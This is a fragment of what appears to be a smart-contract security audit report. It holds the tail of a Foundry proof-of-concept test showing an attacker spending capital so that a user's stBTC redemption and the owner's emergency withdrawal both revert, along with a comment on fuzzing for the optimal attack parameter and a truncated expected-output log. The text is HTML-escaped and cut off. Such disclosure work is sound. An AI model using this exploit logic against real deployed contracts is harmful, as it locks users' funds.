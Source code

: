 ```

  uint attackerFinalBalance &#x3D; IERC20(tBTC).balanceOf(address(this));
  console.log(&quot;@&gt; Attacker&#x27;s initial capital: %s&quot;, attackerInitialCapital);
  console.log(&quot;@&gt; Attacker&#x27;s final balance: %s&quot;, attackerFinalBalance);
  console.log(&quot;@&gt; Total loss: %s&quot;, attackerInitialCapital-attackerFinalBalance);
  console.log(&quot;@&gt; Cost per TVL: %18e&quot;, (attackerInitialCapital-attackerFinalBalance)*1e18/initialTVL);
  

  console.log(&quot;--- --- ---&quot;);
  console.log(&quot;@&gt; tBTC in stBTC: %s&quot;, IERC20(tBTC).balanceOf(stBTC));
  console.log(&quot;@&gt; tBTC in disptacher: %s&quot;, IERC20(tBTC).balanceOf(dispatcher));
  console.log(&quot;@&gt; dispatcher depositBalance: %s&quot;, IAllocater(dispatcher).depositBalance());
  console.log(&quot;--- --- ---&quot;);

  /**
  BOB tries to redeem his shares back, but fail because there is insufficient accessible balance
  */

  console.log(&quot;@&gt; BOB tries to redeem his shares&quot;);
  vm.startPrank(bob);
  console.log(&quot;@&gt; Expect revert...&quot;);
  vm.expectRevert();
  IERC4626(stBTC).redeem(bobShares, bob, bob);
  vm.stopPrank();
  console.log(&quot;@&gt; BOB failed to redeem his shares&quot;);

  console.log(&quot;@&gt; Owner tries to call emergency function&quot;);
  vm.startPrank(owner);
  console.log(&quot;@&gt; Expect revert DepositNotFound&quot;);
  vm.expectRevert(DepositNotFound.selector);
  IAllocater(dispatcher).releaseDeposit();
  vm.stopPrank();
  console.log(&quot;@&gt; Owner failed to call emergency function from Mezo portal withdrawal&quot;);

  /**
  Remove the comment below and the first line in this function, and use portion as an argument of testFuzzPoC in order to fuzz this test and find the optimal value of totalSupply needed
  */
  // if ((attackerInitialCapital-attackerFinalBalance)*1e18/initialTVL &lt; 0.11e18) revert();
}
```

} \`\`\`

Expected Result:\
\`\`\` Ran 1 test for test/Counter.t.sol:AcreBoostTest \[PASS] testFuzzPoC() (gas: 901851) Logs: @> Maintainer calls allocate()

***
